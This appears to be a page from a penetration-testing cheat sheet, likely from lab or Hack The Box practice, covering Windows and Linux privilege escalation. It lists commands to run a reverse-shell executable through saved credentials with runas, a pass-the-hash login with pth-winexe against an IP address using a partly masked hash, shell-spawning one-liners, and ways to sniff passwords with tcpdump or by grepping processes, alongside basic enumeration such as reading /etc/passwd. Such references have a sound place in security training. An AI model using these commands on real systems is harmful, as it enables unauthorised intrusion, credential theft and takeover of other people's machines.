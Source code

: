 ### RunAs - Savedcreds

```bash
cmdkey /list #Displays stored credentials, looks for any optential users
#Transfer the reverseshell
runas /savecred /user:admin C:\Temp\reverse.exe
```

### Pass the Hash

```bash
#If hashes are obtained though some means then use psexec, smbexec and obtain the shell as different user.
pth-winexe -U JEEVES/administrator%aad3b43XXXXXXXX35b51404ee:e0fb1fb857XXXXXXXX238cbe81fe00 //10.129.26.210 cmd.exe
```

---

# Linux Privilege Escalation

- [Privesc through TAR wildcard](https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa)

## TTY Shell

```powershell
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
echo 'os.system('/bin/bash')'
/bin/sh -i
/bin/bash -i
perl -e 'exec "/bin/sh";'
```

## Basic

```bash
find / -writable -type d 2>/dev/null
dpkg -l #Installed applications on debian system
cat /etc/fstab #Listing mounted drives
lsblk #Listing all available drives
lsmod #Listing loaded drivers

watch -n 1 "ps -aux | grep pass" #Checking processes for credentials
sudo tcpdump -i lo -A | grep "pass" #Password sniffing using tcpdump

```
## Manual Enumeration

- id
- `cat /etc/passwd` - displays all the user
    - `cat /etc/passwd | cut -d ":" -f 1` - removes other stuff & only displays users
    - `ls /home` - displays users
- `hostname` - lists the name of the host
- `cat /etc/issue` - exact version on the OS
cat /etc/os-release
- `uname -a` - prints kernel information
cd /home
groups <USER> 
id -G <USER>

